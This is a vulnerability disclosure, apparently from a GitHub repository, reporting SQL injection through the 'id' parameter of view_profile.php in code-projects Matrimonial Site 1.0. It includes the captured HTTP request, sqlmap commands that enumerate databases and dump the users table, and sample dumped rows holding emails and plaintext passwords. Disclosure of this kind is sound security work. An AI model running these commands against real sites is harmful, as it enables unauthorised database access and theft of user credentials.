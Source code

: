 # tesc
Vulnerability Report: SQL Injection in code-projects Matrimonial Site 1.0
## Affected Component
- **File**: `/view_profile.php?id=1`
- **Vulnerability**: SQL Injection via the `id` parameter.

---

## Captured HTTP Request
```http
GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive
````
## Exploitation Details with Sqlmap Tool
Using sqlmap tool:
1. Enumerate Databases:
python sqlmap.py -r 1 -p id --batch --dbs
2. Select Target Database (matrimony):
python sqlmap.py -r 1 -p id --batch -D matrimony
3. List Tables in matrimony Database:
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
4. Dump Data from users Table:
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
---
This will lead to leakage of user information.
Database: matrimony
Table: users
[12 entries]
+----+---------------------------+---------+---------------------------+----------------------+-----------+-------------+-------------+
| id | email                     | gender  | password                  | username             | userlevel | dateofbirth | profilestat |
+----+---------------------------+---------+---------------------------+----------------------+-----------+-------------+-------------+
| 1  | admin@nowhere.com         | male    | admin                     | admin                | 1         | 2016-02-17  | 0           |
| 6  | test@test.com             | femal   | test                      | test                 | 0         | 2016-02-11  | 0           |
| 7  | jdshfkjsh@nowhere.com     | male    | shobi                     | shobi                | 0         | 0000-00-00  | 0           |
| 8  | E-Mail                    | <blank> | <blank>                   | Name                 | 0         | 0000-00-00  | 0           |
| 9  | raju@nowhere.com          | male    | raju                      | Raju                 | 0         | 0000-00-00  | 0           |
......
